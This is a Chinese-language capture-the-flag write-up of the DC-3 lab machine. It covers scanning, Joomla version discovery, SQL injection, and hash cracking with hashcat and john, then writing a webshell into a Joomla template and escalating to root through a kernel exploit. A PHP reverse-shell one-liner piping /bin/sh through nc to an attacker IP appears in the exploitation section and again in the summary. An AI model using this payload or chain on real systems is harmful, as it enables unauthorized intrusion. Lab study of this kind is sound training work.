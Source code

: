 # DC3  
## 简述  
查找到joomla的版本，发现漏洞，在joomla模板文件当中写webshell，最后连接webshell使用内核漏洞进行提权  
```
https://www.tunnelsup.com/hash-analyzer/ 
hashcat -m 3200 pas.txt /usr/share/wordlists/rockyou.txt  --force --show (-m 指定种类 )  
```

## 发现版本和漏洞
### 扫描主机和开启的服务  
```
nmap 192.168.1.*扫描ip段  
nmap -A ip -p 1-65535 对一个ip地址进行全面的扫描并且扫描开启的端口  
```  
![20211017000447](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000447.png)  
![20211017000500](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000500.png)
发现只开启了80端口  
目录爆破
```
python3 dirsearch.py -e php -u 
```
访问其中的页面发现是joomla
![20211017000516](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000516.png)
![20211017000531](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211017000531.png)
或者是使用joomscan直接进行搜索（比较推荐使用这个插件直接能拿到版本号   
```
perl joomscan.pl -u http://192.168.1.60
```

![20191127195336.png](https://i.loli.net/2019/11/27/9wHT1rkBovUM5lL.png)  
然后在其中的版本当中使用**searchsploit**进行搜素历史漏洞   
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201150257.png)  
看其中的payload比较麻烦，直接在网上找了一个payload()
![20191124113526.png](https://i.loli.net/2019/11/24/7LBviDErnpVFuze.png)  
搜索漏洞利用可以直接在这里面看到利用或者是验证的过程（或者是exploit-db）  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201203928.png)
可以使用该sql漏洞拿到用户名和加密的密码，其中密码可以使用john进行破解  
hashcat 的使用方法  
```
hashcat -m 3200 pas.txt /usr/share/wordlists/rockyou.txt --show  
```  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201205319.png)  
john的使用方式   
```
john  pas.txt /usr/share/wordlists/rockyou.txt --show  
```  
hashcat和john都存在这个问题如果不加上show参数的话，之前爆破的结果不会保存  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201205710.png)
## 漏洞利用  
###  写webshell  
joomla模板的webshell这么写  
```
访问administrator页面->Extensions->styles->点击Template下的进行编辑php文件  
如何进行反弹？直接访问ip/templates/tem_name/页面就可以了  

```
因为是php建站模板，可以直接使用在template当中进行新建php文件进行  ![20191124114230.png](https://i.loli.net/2019/11/24/f8YR4SQK6oV7Wuj.png)
``` 
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.39 1337 >/tmp/f');
?>  （直接反弹shell的方式不能使用 （nc ip port）的方式  
```
**一句话反弹shell**  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201211647.png)  
接受到返回的shell  
![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201211752.png)
## 提权   
```
python -c 'import pty;pty.spawn("/bin/bash")'  
```
提权还是使用searchsploit进行提权  ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201211948.png)
![20191124114749.png](https://i.loli.net/2019/11/24/SvZ8Xe5ICtLJpsu.png)   
kali上![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201212509.png)  
靶机上  ![](https://raw.githubusercontent.com/shakeyin1998/picsformd/master/20200201212931.png)
## 总结  
常见cms的sql注入，拿到网站权限，写一个shell，反弹之后内核进行提权
### 操作  
一句话反弹shell  <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.39 1337 >/tmp/f');
?>   
爆破密码  john  pas.txt /usr/share/wordlists/rockyou.txt --show  
hashcat -m 3200 pas.txt /usr/share/wordlists/rockyou.txt --show  
### 注意点  
这里使用php反弹shell的脚本和之前的不同需要注意  
在shell当中不存在解压命令 所以最好是使用逐个文件进行上传（msf直接上传，冰蝎上传），编译之后就行了 ，当然这里存在                    


